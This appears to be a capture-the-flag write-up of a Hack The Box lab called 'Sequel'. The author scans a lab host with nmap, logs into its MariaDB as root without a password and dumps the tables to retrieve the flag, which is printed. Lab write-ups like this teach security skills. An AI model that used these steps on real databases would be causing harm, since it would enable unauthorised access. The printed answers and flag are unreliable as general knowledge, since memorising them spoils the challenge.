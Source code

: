 <span style="color:cyan">**Question 1**</span> : During our scan, which port do we find serving MySQL?

I used nMap to identify open ports and services

```
cmd  nmap -sV -p- 10.129.68.218

Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-13 22:32 CET
Nmap scan report for 10.129.68.218 (10.129.68.218)
Host is up (0.030s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.49 seconds
```
From the output, it looks like the port serving MySQL is 3306.

    3306
    
<span style="color:cyan">**Question 2**</span>: What community-developed MySQL version is the target running?

I initially tried running the command nmap -sV IP address: 
```
cmd : nmap -sV IP address

Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-14 13:23 CET
Nmap scan report for 10.129.192.97
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 196.86 seconds
```

However, I didn't get the MySQL version in the output. So, I used another command:

```
cmd : nmap -sC -sV -v IP address

3306/tcp open     mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 98
|   Capabilities flags: 63486
```

From this output, it seems the target is running the community-developed MySQL version known as MariaDB 

    MariaDB

<span style="color:cyan">**Question 3**</span>: When using the MySQL command line client, what switch do we need to use in order to specify a login username?

In the MySQL command line client, you can use the -u or --user switch to specify the login username.

    -u

<span style="color:cyan">**Question 4**</span>: Which username allows us to log into this MariaDB instance without providing a password?

I tried using admin, administrator, and root. It looks like using root allows logging into the instance without a password.
    root

<span style="color:cyan">**Question 5**</span>: In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

In SQL, the asterisk (*) symbol is used as a wildcard character to represent all columns in a table. 

    *

<span style="color:cyan">**Question 6**</span>: In SQL, what symbol do we need to end each query with?

In SQL, we typically end each query with a semicolon `;`

    ;

<span style="color:cyan">**Question 7**</span>: There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

Firstly i enter the istance by running the following command: 

```
cmd :  mariadb -u root -h 10.129.222.188

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 36
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

Using `show databases` I can see al the databases in the istance: 

```

cmd : show databases;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (1 min 37,118 sec)

```

I can see now the unique database:

    htb


<span style="color:cyan">**Question 8**</span>: Submit root flag

At this point i tried to enter htb running `use` command: 

```
cmd : use htb;
```

Then, since i wanna see all the tables...

```
cmd: show tables;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```

Now i wanna see al the data, and i can have it by using the command `slect * from`: 

```
cmd: select * from config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+


cmd : select * from users;

+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+



```

I can see the flag!

    7b4bec00d1a39e3dd4e021ec3d915da8 

